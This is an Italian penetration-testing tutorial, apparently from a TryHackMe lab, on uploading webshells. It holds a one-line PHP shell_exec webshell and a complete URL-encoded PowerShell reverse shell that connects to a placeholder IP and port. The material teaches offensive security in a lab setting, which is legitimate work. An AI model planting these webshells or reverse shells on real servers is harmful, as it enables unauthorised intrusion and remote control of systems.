 # Caricare shell direttamente dall’url del sito

Ci sono volte in cui ci imbattiamo in siti **web** che ci offrono **l'opportunità** di **caricare**, in un modo o nell'altro, un **file eseguibile**. Idealmente, **sfrutteremmo** questa opportunità per **caricare** **codice** che attivi una reverse o bind **shell**, **ma a volte ciò non è possibile**. In questi casi, **caricheremmo invece** una ***webshell*** . Consulta la [Upload Vulnerabilities Room](https://tryhackme.com/room/uploadvulns) per un'analisi più approfondita di questo concetto.

"Webshell" è un termine colloquiale per uno **script** che viene **eseguito** **all'interno** di un **webserver** (solitamente in un linguaggio come PHP o ASP) che **esegue codice sul** **server**. In sostanza, i comandi vengono **inseriti** in una pagina web, tramite un **modulo HTML** **o** direttamente come argomenti **nell'URL**, che vengono poi eseguiti dallo script, con i risultati restituiti e scritti nella pagina. Questo può essere estremamente utile se sono presenti firewall, o anche solo come trampolino di lancio verso una reverse shell o una bind shell completamente sviluppate.

Poiché PHP è ancora il linguaggio di scripting lato server più diffuso, diamo un'occhiata ad un codice semplice per questo scopo.

In un formato molto semplice, su una sola riga:

**`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`**

Questo prenderà un parametro **GET** nell'URL e lo eseguirà sul sistema con **`shell_exec()`**. In sostanza, ciò significa che tutti i comandi che inseriamo nell'URL dopo **`?cmd=`**saranno eseguiti sul sistema, che sia Windows o Linux. Gli elementi "pre" servono per garantire che i risultati siano formattati correttamente sulla pagina.

Vediamolo in azione:

![image](https://github.com/user-attachments/assets/41684d84-a83f-42ef-91dc-78daff8c2aa7)

Nota che quando navigavamo nella shell, abbiamo usato un parametro GET "cmd" con il comando "ifconfig", che ha restituito correttamente le informazioni di rete del box. In altre parole, inserendo il **`ifconfig`**comando (usato per controllare le interfacce di rete su un target Linux ) nell'URL della nostra shell, è stato eseguito sul sistema, con i risultati restituiti a noi. Questo funzionerebbe per qualsiasi altro comando che scegliessimo di usare (ad esempio **`whoami`**, **`hostname`**, **`arch`**, ecc.).

Come accennato in precedenza, ci sono una varietà di webshell disponibili su Kali di default su **`/usr/share/webshells`**-- inclusa la famigerata [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) -- una reverse shell completa scritta in PHP. Nota che la maggior parte delle reverse shell generiche e specifiche del linguaggio (ad esempio PHP) sono scritte per target basati su Unix come i webserver Linux . Non funzioneranno su Windows di default.

Quando il target è Windows, spesso è più facile ottenere RCE usando una web shell, o usando msfvenom per generare una reverse/bind shell nel linguaggio del server. Con il primo metodo, l'ottenimento di RCE viene spesso eseguito con una URL Encoded Powershell Reverse Shell. Questo verrebbe copiato nell'URL come **`cmd`**argomento:

```powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

Shell è codificata in URL per essere utilizzata in modo sicuro in un parametro GET. Ricorda che IP e Port (in grassetto, verso la fine della riga superiore) dovranno comunque essere modificati nel codice sopra.
